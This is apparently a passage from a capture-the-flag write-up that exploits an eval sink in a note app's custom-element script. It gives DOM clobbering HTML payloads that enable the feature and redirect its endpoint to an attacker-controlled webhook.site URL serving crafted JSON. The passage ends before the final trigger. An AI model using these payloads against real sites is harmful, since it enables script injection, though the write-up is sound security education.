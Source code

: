 This file is loaded in the browser when reading a note.
At first glance, it only defines new `div` elements.
But when inspecting the custom class, we see that `eval` is called when an attribute is changed:

```js
eval(`console.log('Old value: ${oldValue}', 'New Value: ${newValue}')`);
```

I just have two things to say:

* Why?
* It’s pretty clear that this `eval` is our sink.
Now we need to find how to trigger it.

Let’s break down what the script does:

* Once the page is loaded, it checks if the `custom_elements` feature is enabled.
* If it is, the script fetches the elements from the `custom_elements.endpoint`.
* For each element, a new class is created, which observes only attributes that contain a dash (`-`).
* When such an attribute changes, the `eval` is called to log the old and new values.

To exploit this `eval`, we need to clobber these two variables, our gadgets:

```js
window.custom_elements.enabled
window.custom_elements.endpoint
```

To clobber them, I used [DOMC Payload Generator](https://domclob.xyz/domc_payload_generator/) to generate the appropriate payloads.

The first one enables the `custom_elements` feature:

```html
<a id="custom_elements"></a><a id="custom_elements" name="enabled" href="true"></a>
```

The second one sets `custom_elements.endpoint` to a site I control:

```html
<a id="custom_elements"></a><a id="custom_elements" name="endpoint" href="https://webhook.site/a4657150-2529-49e3-b51c-1091d4ec3977"></a>
```

The webhook is configured to serve the following JSON:

```json
[
  {
    "name": "my-custom-div",
    "observedAttribute": "my-attribute"
  }
]
```

This JSON will be fetched by `main.js` and used to create a new element `my-custom-div`, which observes the attribute `my-attribute`.
When it changes, the `eval` is triggered.
